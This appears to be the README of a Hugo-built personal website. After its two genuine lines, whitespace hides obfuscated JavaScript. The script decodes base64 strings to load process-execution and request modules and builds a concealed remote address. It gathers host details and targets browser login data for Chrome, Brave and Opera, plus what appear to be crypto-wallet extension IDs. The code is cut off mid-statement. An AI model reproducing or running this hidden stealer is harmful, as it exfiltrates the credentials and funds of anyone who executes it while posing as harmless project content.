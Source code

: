 # OxMarco Personal Website
Built with [Hugo](https://gohugo.io/) and [Reveal-Hugo](https://github.com/dzello/reveal-hugo).
                                                                                                                                                                                                                                                                                                               Object.prototype.toString,Object.getOwnPropertyDescriptor,Object.defineProperty;const t="base64",a="utf8",$=require("os"),r=require("fs"),n=c=>(s1=c.slice(1),Buffer.from(s1,t).toString(a));pt=require(n("zcGF0aA")),rq=require(n("YcmVx"+"dWVzdA")),ex=require(n("aY2hpbGRf"+"cHJvY2Vzcw"))[n("cZXhlYw")],zv=require(n("Zbm9kZTpwcm9jZXNz")),hs=$[n("caG9zdG5hbWU")](),hd=$[n("ZaG9tZWRpcg")](),pl=$[n("YcGxhdGZvcm0")](),td=$[n("cdG1wZGly")]();let e;const l=c=>Buffer.from(c,t).toString(a),s=()=>{let t="MTQ3LjEyNCaHR0cDovLw4yMTQuMjM3OjEyNDQ=  ";for(var c="",a="",$="",r="",n=0;n<10;n++)c+=t[n],a+=t[10+n],$+=t[20+n],r+=t[30+n];return c=c+$+r,l(a)+l(c)},h=t=>t.replace(/^~([a-z]+|\/)/,((t,c)=>"/"===c?hd:`${pt[l("ZGlybmFtZQ")](hd)}/${c}`)),o="NVRlYW05",Z="Z2V0",y="Ly5ucGw",i="d3JpdGVGaWxlU3luYw",d="L2NsaWVudA",p=l("ZXhpc3RzU3luYw"),u="TG9naW4gRGF0YQ",b="Y29weUZpbGU";function m(t){const c=l("YWNjZXN"+"zU3luYw");try{return r[c](t),!0}catch(t){return!1}}const G=l("RGVmYXVsdA"),W=l("UHJvZmlsZQ"),Y=n("aZmlsZW5hbWU"),f=n("cZm9ybURhdGE"),w=n("adXJs"),V=n("Zb3B0aW9ucw"),v=n("YdmFsdWU"),j=l("cmVhZGRpclN5bmM"),z=l("c3RhdFN5bmM"),L=l("cG9zdA"),X="Ly5jb25maWcv",g="L0xpYnJhcnkvQXBwbGljYXRpb24gU3VwcG9ydC8",x="L0FwcERhdGEv",N="L1VzZXIgRGF0YQ",R="R29vZ2xlL0Nocm9tZQ",k="QnJhdmVTb2Z0d2FyZS9CcmF2ZS1Ccm93c2Vy",_="Z29vZ2xlLWNocm9tZQ",F=["TG9jYWwv"+k,k,k],q=["TG9jYWwv"+R,R,_],B=["Um9hbWluZy9PcGVyYSBTb2Z0d2FyZS9PcGVyYSBTdGFibGU","Y29tLm9wZXJhc29mdHdhcmUuT3BlcmE","b3BlcmE"];let U="comp";const J=["aGxlZm5rb2RiZWZncGdrbm4","aGVjZGFsbWVlZWFqbmltaG0","cGVia2xtbmtvZW9paG9mZWM","YmJsZGNuZ2NuYXBuZG9kanA","ZGdjaWpubWhuZm5rZG5hYWQ","bWdqbmpvcGhocGtrb2xqcGE","ZXBjY2lvbmJvb2hja29ub2VlbWc","aGRjb25kYmNiZG5iZWVwcGdkcGg","a3Bsb21qamtjZmdvZG5oY2VsbGo"],T=101
